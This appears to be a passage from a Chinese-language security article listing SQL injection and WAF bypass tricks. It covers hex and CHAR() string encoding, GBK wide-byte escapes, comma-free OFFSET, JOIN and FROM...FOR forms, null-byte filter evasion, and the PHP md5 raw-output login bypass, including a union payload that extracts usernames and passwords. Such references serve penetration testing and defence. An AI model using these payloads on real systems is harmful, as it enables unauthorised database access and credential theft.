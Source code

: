 - select * from test where test=0x61646D696E	  
#等价于 test='admin'  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjEvOBY9AcbuJJy66Cwfiaf6iciaoKJ7ra6QEqSoFDBHHxic8dyic0y0wYLKQ/640?wx_fmt=png&from=appmsg "")  
- CHAR()函数绕过：  
- select * from test where test=CHAR(97, 100, 109, 105, 110)		#等价于 test='admin'  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGj7INbpE1t0uMbBYGc5fdfdoB31ttSvL68K5tt0FrjLI2JaWCbpQpyVg/640?wx_fmt=png&from=appmsg "")  
- 双引号替代：  
- 局限性：  
仅当 SQL 语句允许双引号包裹字符串时有效  
- 宽字节注入(GBK编码环境)  
- 输入 %df%27（%27 为单引号），转义后变为 %df%5c%27 → GBK 解码为 運'，使单引号逃逸  
- **条件**  
：数据库采用 GBK 等双字节编码，且使用 addslashes() 等转义函数  
# 对逗号绕过  
- 使用offset绕过：  
- Select * from test limit 0,1等价于select * from test limit 1 offset 0  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjM4hOlOIhKXhZibhT4vgbmIcbKoLCh9M3OjF7qzyYLN6weP0uOibKyyiag/640?wx_fmt=png&from=appmsg "")  
- Select * from test limit 0,2等价于select * from test limit 2 offset 0  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjNSic7QSfBiauoNLh4l4Gn5mayawQyZVTIeUctSwbI8Q8Noc3CuWBzGicw/640?wx_fmt=png&from=appmsg "")  
- 用“join”拼接字段：  
- Union select DATABASE(),version()等价于union select * from test union select * from(select DATABASE())a join (select version())b  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjiarN6FQVIickd7oqUOJtwqmBLsAjy7Gy2HOqRhugnOibjqfKdZBkic1o2w/640?wx_fmt=png&from=appmsg "")  
- from to：  
- 对于substr()和mid()这两个方法可以使用from for 的方式来解决： select substr(database() from 1 for 1)='c';  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjza7gRA9ibw8xq9SWowOS8lA13ibeIjlicTT3rAocykTXbnicxGwFgkZAkw/640?wx_fmt=png&from=appmsg "")  
- SUBSTR(database(),1,1)等价于Select substr(database() from 1 for 1);  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjpcmicPpCa2meLT3ibk2O2aVcs1KM6cOgBAicgNhnCGoJRLc43gIWTafUw/640?wx_fmt=png&from=appmsg "")  
- like：Select ascii(mid(user(),1,1))=114等价于select user() like 'r%'  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjwQ4LwtSDQ4w8q4ryV1DV7n2jDGF5WZH5sKE3Bv2kR00yVoD8b3XINw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjyVoJURKSnzVMFibEr7zJsKpnORx4EPAkZEQcIzPFZ8TEATbBvEWaaSA/640?wx_fmt=png&from=appmsg "")  
# 空字节绕过  
- **原理**  
：WAF通常基于正则表达式匹配关键词（如UNION、SELECT）。空字节%00在C语言中表示字符串结束符，若WAF底层使用C/C++编写，解析到%00时会提前终止扫描，忽略后续恶意代码  
- **适用场景**  
：老旧WAF或未适配空字节检测的防护系统（如部分云WAF旧版本）  
- id=1%00  
' union select username,password from users where username='admin' --  
# ' ".md5($pass,true)" '登录绕过  
- 代码：SELECT * FROM users WHERE password = '.md5($password,true).';  
- **md5(, true) 的特性：**  
PHP 中 md5($str, true) 返回原始 16 字节二进制数据（而非 32 位十六进制字符串）。特定字符串的 MD5 二进制结果可能包含 'or' 等 SQL 元字符  
